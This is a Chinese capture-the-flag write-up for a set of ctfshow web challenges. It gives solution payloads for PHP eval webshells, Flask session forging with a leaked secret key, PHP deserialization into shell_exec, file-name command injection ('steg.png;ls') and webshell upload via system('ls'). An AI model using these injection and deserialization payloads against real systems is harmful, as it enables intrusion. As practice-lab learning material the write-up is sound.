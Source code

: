 # web签到
```php
eval($_REQUEST[$_GET[$_POST[$_COOKIE['CTFshow-QQ群:']]]][6][0][7][5][8][0][9][4][4]);
/*
    # $_REQUEST 能够获取get，post，cookie中的消息
    # $_COOKIE 获取cookie中的值，此题中获取CTFshow-QQ群的值
    # $_POST 获取cookie的名的值
    # $_GET 获取post对应的值
*/
```
构造如下请求（不知道request c[][]...[]=system('ls /');命令放在get处无法执行。。。，改到post处就可以）
![pic1](/ctfshow/image/image-1.png)

# web2 come_to_sign
浏览器f12，按照提示控制台输入g1ve_flag()

# 我的眼里只有$
```php
$var = str
$str = hello
$$var = $str = hello
```
![image2](/ctfshow/image/image-2.png)

# 抽老婆
打开网站，发现可以下载图片，修改download的请求，报错
![error](/ctfshow/image/image-3.png)
发现报错处为/app/app.py,尝试download该文件，打开发现secret_key
并且发现如下代码
```python
@app.route('/secret_path_U_never_know',methods=['GET'])
def getflag():
    if session['isadmin']:
        return jsonify({"msg":flag})
    else:
        return jsonify({"msg":"你怎么知道这个路径的？不过还好我有身份验证"})
```
使用脚本解密session，修改isadmin的值为True，重新加密生成session
![alt text](/ctfshow/image/image-5.png)
![alt text](/ctfshow/image/image-4.png)

# 一言既出&驷马难追
xor

114514^1897488

# TapTapTap
修改游戏代码，habibiscript.js,跳关，小球点击次数改为一，depends on you

# webshell
php的序列化和反序列化，<mark>由于有shell_exec就不用system了</mark>
```php
$cmd=O:8:"Webshell":1:{s:3:"cmd";s:4:"nl *";}
```
# 化整为零
构造payload ?1=%E5&2=%A4&3=%A7&4=%E7&5=%89&6=%9B

# 无一幸免
题出错了?，退测if中应该为==

# 传说之下（雾）
在控制台修改

# 算力超群
看了wp要用反弹shell，没有公网ip

# 算力升级
没做还

# easyPytHon_P
给了源码还是得看wp，cmd=awk&param=system("ls")

<mark>有的地方不用双引号不行不知道为什么</mark>

# 遍地飘零
var_dump($_GET)

尝试把\$flag的值赋给\$_GET

# 茶歇区
溢出，源码判断数量\*消耗fp值要小于等于剩余fp值，类型为int64，故使得数量\*消耗的fp大于int64的上限变为复数即可，然后再次输入使数量\*消耗fp值\*2的符号位为0，且值大于114514即可

# 小舔田
php __wakeup()函数在unserialize时被自动调用
```php
<?php
    class Ion_Fan_Princess{
        public $nickname="小甜甜";

        public function call(){
            global $flag;
            if ($this->nickname=="小甜甜"){
                echo $flag;
            }else{
                echo "以前陪我看月亮的时候，叫人家小甜甜！现在新人胜旧人，叫人家".$this->nickname."。\n";
                echo "你以为我这么辛苦来这里真的是为了这条臭牛吗?是为了你这个没良心的臭猴子啊!\n";
            }
        }
        
        public function __toString(){
            $this->call();
            return "\t\t\t\t\t\t\t\t\t\t----".$this->nickname;
        }
    }
    class Moon{
        public $name="月亮";
        public function __toString(){
            return $this->name;
        }
        
        public function __wakeup(){
            echo "我是".$this->name."快来赏我";
        }
    }
    // $m->(此处不用加$)name
    $m = new Moon();
    $m->name=new Ion_Fan_Princess();
    $m->name->nickname='小甜甜';
    echo urlencode(serialize($m));
?>
```

# LSB探姬
源码中直接将文件名拼接到指令中执行，故修改文件名即可，例如：steg.png;ls

# Is_Not_Obfuscate
## step1
乱点一通，什么都没发现
## step2
F12查看页面,发现有两处注释，第一处看不明白，第二处提到了lip.php,robots.txt

![alt text](/ctfshow/image/image-6.png)

分别查看，发现lib.php什么都不显示，robots.txt有如下内容
```
User-agent: *
Allow: /lib.php$
Disallow: /lib.php?flag=0
Disallow: /plugins
```
重新查看lib.php$,和index.php没什么不同

不让flag=0，试试flag=1，页面出现了一串字符串

之前的第一处注释中发现action有个值为test，此处看了wp，将action=test和push=urlencode（上面的字符串）

出现了页面源码

发现push提交的命令和‘youyou’拼接后md5加密作为插件名，因此
```
push <?php system('ls');?>
pull md5 encode("<?php system('ls');?>youyou")
```

